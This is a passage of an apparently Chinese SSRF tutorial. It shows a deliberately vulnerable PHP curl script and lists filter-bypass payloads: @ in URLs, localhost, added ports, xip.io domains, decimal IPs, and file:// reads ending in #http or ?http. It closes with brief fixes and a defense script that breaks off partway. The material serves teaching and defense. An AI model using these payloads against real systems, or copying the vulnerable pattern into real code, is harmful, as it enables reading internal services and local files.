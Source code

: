 将url修改为http://127.0.0.1或目标真实IP的时候可以获取端口的banner
![](https://s2.ax1x.com/2019/04/13/ALlUIJ.png)

使用file协议来获取目标的文件
![](https://s2.ax1x.com/2019/04/13/ALl0R1.md.png)

要查看源码才能看到读取的内容

一般来说，就算有ssrf都会有一些过滤之类的东东，绕过方法如下

绕过判断是否有127.0.0.1
```php
<?php
header("Content-Type: text/html;charset=utf-8");
function curl($url){
    $ch=curl_init();
    curl_setopt($ch,CURLOPT_URL,$url);
    curl_setopt($ch,CURLOPT_HEADER,0);
    curl_exec($ch);
    curl_close($ch);
}
$url=$_GET['url'];
if(isset($url)&&(!strstr($url,'127.0.0.1'))) {
    curl($url);
}else{
    echo "禁止ssrf攻击";
}
?>
```

访问http://127.0.0.1/demo.php?url=http://localhost:3306 即可绕过
![](https://s2.ax1x.com/2019/04/13/ALNU8e.png)

这判断里面是否127.0.0.1有点绝。。网上绕过的都是判断是否有http://127.0.0.1 .....
那么绕过http://127.0.0.1 的方法有
```
http://abc@127.0.0.1  使用@
http://localhost 使用localhost
http://127.0.0.1:8080  添加端口号
www.127.0.0.1.xip.io 可以指向任何IP的域名 xip.io
115.239.210.26 ＝ 16373751032 IP转换成进制来访问 没有成功
``

绕过判断是否有http字符串
```
http://127.0.0.1/demo.php?url=file:///I:/phpstudy/WWW/demo.php%23http 使用#
http://127.0.0.1/demo.php?url=file:///I:/phpstudy/WWW/demo.php?http 使用?
```

绕过mysql不许外连，使用目标机的外网IP请求，会获取目标的主机名
![](https://s2.ax1x.com/2019/04/13/AL0vEn.md.png)

修复ssrf漏洞建议
* 限制请求的端口只能为web端口，只允许访问http和https的请求
* 限制不能访问内网IP，以防止对内网进行攻击
* 屏蔽返回详细信息

自己写的彩笔防御脚本
```php
<?php
header("Content-Type: text/html;charset=utf-8");
function curl($url){
    $ch=curl_init();
    curl_setopt($ch,CURLOPT_URL,$url);
    curl_setopt($ch,CURLOPT_HEADER,0);
    curl_exec($ch);
```